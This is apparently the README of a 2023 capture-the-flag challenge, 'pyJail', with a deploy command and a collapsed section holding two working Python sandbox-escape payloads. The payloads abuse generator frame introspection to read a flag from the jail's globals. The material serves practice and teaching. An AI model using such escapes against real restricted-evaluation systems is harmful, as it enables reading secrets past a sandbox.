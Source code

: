 ## pyJail

### Description
Make your flag generator!

### Deploy
Provide [jail.py](https://github.sec.samsung.net/SCTF/chals2023/blob/main/pyjail/jail.py)

```
docker-compose up --build -d
```

#### Exploit
<details>
<summary>show exploit</summary>

```
{}[[*[x.append(x[0].gi_frame.f_back.f_back.f_globals['flag']for _ in[1])or x[0]for x in[[]]][0]][0]]
  
shorter one!
[*[x.append({}[x[0].gi_frame.f_back.f_back.f_globals['flag']]for _ in[1])or x[0]for x in[[]]][0]]
```

</details>
